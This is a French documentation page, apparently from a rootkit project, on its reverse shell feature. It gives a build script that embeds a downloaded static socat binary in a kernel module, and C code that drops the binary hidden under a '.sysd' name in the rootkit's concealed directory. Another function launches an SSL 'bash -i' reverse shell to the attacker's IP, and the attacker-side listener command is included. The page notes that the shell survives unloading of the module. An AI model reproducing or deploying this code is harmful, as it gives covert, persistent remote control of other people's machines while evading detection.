 \page reverse Reverse Shell
\tableofcontents

## Reverse Shell

Dans le cadre de notre projet, nous avons implémenté un reverse shell utilisant `socat` pour établir une connexion chiffrée SSL vers le serveur d'attaque. Le choix de `socat` est motivé par sa capacité à fournir un shell interactif complet, contrairement à des outils plus simples comme `netcat` ou même simplement `bash`.
Afin de pouvoir s'assurer de la présence de `socat` sur le système, nous avons intégré le binaire directement dans le rootkit, ce qui permet de le déposer dynamiquement lors du montage du rootkit. Cela demande d'avoir à disposition une version statique de `socat` embarquant aussi SSL, de dumper ce binaire dans le rootkit afin de pouvoir finalement l'utiliser pour établir le reverse shell.

### Chargement de socat dans le module en tant que payload

Pour charger le binaire `socat` dans le rootkit, nous utilisons un script lors de la compilation du module. Ce script extrait le binaire `socat` et le convertit en un tableau de caractères C, qui est ensuite intégré dans le code source du module.

```bash
generate_socat_h() {
  # if socat file does not exist, download it
  if [ ! -f socat ]; then
    echo "socat binary not found."
    echo "Download static socat binary from github.com/ernw/static-toolbox"
    wget https://github.com/ernw/static-toolbox/releases/download/socat-v1.7.4.4/socat-1.7.4.4-x86_64 -O socat
    if [ $? -ne 0 ]; then
      echo "Failed to download socat binary."
      exit 1
    fi
    echo "Download complete."
  fi
  echo "Hexdumping socat to socat.h"
  xxd -i socat > include/socat.h
}

# Check if socat.h exists
if [ ! -f ./include/socat.h ]; then
  echo "socat.h not found, generating it..."
  generate_socat_h
else
  echo "socat.h already exists, skipping generation."
fi
```

À la suite de cela, nous obtenons finalement un fichier `socat.h` contenant le code suivant :

```c
unsigned char socat[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00,
  // ... (le reste du binaire socat)
};
unsigned long socat_len = 123456; // Longueur du binaire socat
```

### Déchargement du binaire sur la machine cible

Le binaire `socat` est déposé sur la machine cible grâce à la fonction `drop_socat_binaire(void)` :

```c
int drop_socat_binaire(void) {
    if (is_socat_binaire_dropped()) {
        DBG_MSG("drop_socat_binaire: socat binary already dropped\n");
        return SUCCESS;
    }

    struct file *f;
    loff_t pos = 0;

    f = filp_open(SOCAT_BINARY_PATH, O_WRONLY | O_CREAT | O_TRUNC, 0700);
    if (IS_ERR(f)) {
        ERR_MSG("drop_socat_binaire: failed to open file: %ld\n", PTR_ERR(f));
        return -FAILURE;
    }

    unsigned int written = kernel_write(f, socat, socat_len, &pos);
    if (written < 0) {
        ERR_MSG("drop_socat_binaire: kernel_write failed: %u\n", written);
        filp_close(f, NULL);
        return -FAILURE;
    }
    else if (written < socat_len) {
        ERR_MSG("drop_socat_binaire: only %u bytes written, expected %u\n", written, socat_len);
        filp_close(f, NULL);
        return -FAILURE;
    }
    else {
        DBG_MSG("socat written successfully (%u bytes)\n", written);
    }

    filp_close(f, NULL);

    return SUCCESS;
}
```

Cette fonction vérifie d'abord si le binaire a déjà été déposé, puis crée et écrit le contenu du tableau `socat` (contenant le binaire) à l'emplacement défini par `SOCAT_BINARY_PATH`. Elle gère également les erreurs potentielles lors de l'écriture et s'assure que l'intégralité du binaire est bien écrite sur le disque.

> **Obfuscation et discrétion du binaire**
> Par défaut, le fichier `socat` déposé sur la machine cible est renommé avec l'extension `.sysd` afin d'ajouter une première couche d'obfuscation. De plus, il est placé dans le répertoire caché du rootkit, ce qui le rend pratiquement invisible pour un utilisateur ou un administrateur système classique. Ce choix vise à limiter les risques de détection du binaire par des outils d'analyse ou lors d'une inspection manuelle du système de fichiers.

### Exécution du reverse shell
Pour exécuter le reverse shell, nous utilisons la fonction `launch_reverse_shell(char *args)` :

```c
int launch_reverse_shell(char *args) {
  if (!is_socat_binaire_dropped()) {
    ERR_MSG("launch_reverse_shell: socat binary not dropped\n");
    return -FAILURE;
  }

  int port = REVERSE_SHELL_PORT; // Port par defaut

  // Recuperer le port
  if (args && strlen(args) > 0)
    port = simple_strtol(args, NULL, 10);

  // Construire la commande socat avec le port spécifié
  char cmd[256];
  snprintf(cmd, sizeof(cmd), "%s exec:'bash -i',pty,stderr,setsid,sigint,sane openssl-connect:%s:%d,verify=0 &",
          SOCAT_BINARY_PATH, ip, port);

  // Lancer la commande
  int ret_code = exec_str_as_command(cmd, false);

  if (ret_code < 0) {
    ERR_MSG("launch_reverse_shell: failed to start reverse shell on port %d\n", port);
    return ret_code;
  }

  DBG_MSG("launch_reverse_shell: reverse shell started on port %d\n", port);
  return SUCCESS;
}
```

Cette fonction vérifie d'abord que le binaire `socat` a bien été déposé. Elle récupère ensuite le port à utiliser (par défaut ou passé en argument), construit la commande d'exécution du reverse shell avec `socat`, puis l'exécute via `exec_str_as_command`. Les erreurs sont gérées et un message de succès est affiché si le shell est lancé correctement.

**Explication de la commande `socat` utilisée :**
```bash
socat exec:'bash -i',pty,stderr,setsid,sigint,sane openssl-connect:IP:PORT,verify=0 &
```
Cette commande `socat` établit une connexion SSL vers l'IP et le port spécifiés, tout en redirigeant l'entrée et la sortie standard vers un shell interactif `bash`. Les options utilisées sont :
| Option                        | Description                                                                                      |
|-------------------------------|--------------------------------------------------------------------------------------------------|
| `exec:bash -i`              | Exécute un shell interactif.                                                                     |
| `pty`                         | Alloue un pseudo-terminal pour le shell.                                                         |
| `stderr`                      | Redirige les erreurs vers la sortie standard.                                                    |
| `setsid`                      | Détache le processus du terminal.                                                                |
| `sigint`                      | Gère les signaux d'interruption.                                                                 |
| `sane`                        | Réinitialise les paramètres du terminal pour un comportement standard.                           |
| `openssl-connect:IP:PORT`     | Établit une connexion SSL vers l'IP et le port spécifiés.                                        |
| `verify=0`                    | Désactive la vérification du certificat SSL (utile pour les tests, mais à éviter en production). |

En somme, cette commande génère un shell sur mesure permettant ensuite d'ajouter un maximum d'interactivité et de fonctionnalités, tout en étant sécurisé par SSL.

### Reception de la connexion par l'attaquant
Pour recevoir la connexion du reverse shell, l'attaquant doit exécuter la commande suivante sur son serveur :

```bash
socat openssl-listen:9000,reuseaddr,cert="$(pwd)"/server.pem,verify=0 file:"$(tty)",raw,echo=0
```

Explications des options utilisées :
| Option                        | Description                                                                                      |
|-------------------------------|--------------------------------------------------------------------------------------------------|
| `openssl-listen:9000`         | Écoute les connexions entrantes sur le port 9000 en utilisant SSL.                               |
| `reuseaddr`                   | Permet de réutiliser l'adresse et le port, utile pour éviter les erreurs de "port déjà utilisé". |
| `cert="$(pwd)"/server.pem`    | Spécifie le certificat SSL à utiliser pour la connexion.                                         |
| `verify=0`                    | Désactive la vérification du certificat SSL (utile pour les tests, mais à éviter en production). |
| `file:"$(tty)",raw,echo=0`    | Redirige l'entrée/sortie vers le terminal actuel, en mode brut et sans écho.                      |

Dans le cadre de notre projet, nous avons automatisé le lancement de cette commande depuis l'interface web de l'attaquant, permettant ainsi de démarrer le reverse shell en un clic. 

> **Note**  
> Pour plus d'informations concernant le lancement côté attaquant, voir la section [Dashboard](#reverse-shell).


> **⚠️ Attention**  
> Le processus `socat` étant lancé dans un thread distinct du thread principal du module, il continue de s'exécuter même après le déchargement du rootkit. Cela présente l'avantage de maintenir un accès persistant à la machine cible, même si le rootkit doit être temporairement désactivé ou relancé. Cependant, il est important de garder à l'esprit que ce comportement peut laisser des traces (processus `socat` actif) et doit donc être pris en compte lors de l'utilisation ou de la suppression du module.

<img 
  src="logo_no_text.png" 
  style="
  display: block;
  margin: 100px auto;
  width: 30%;
  overflow: hidden;
  "
/>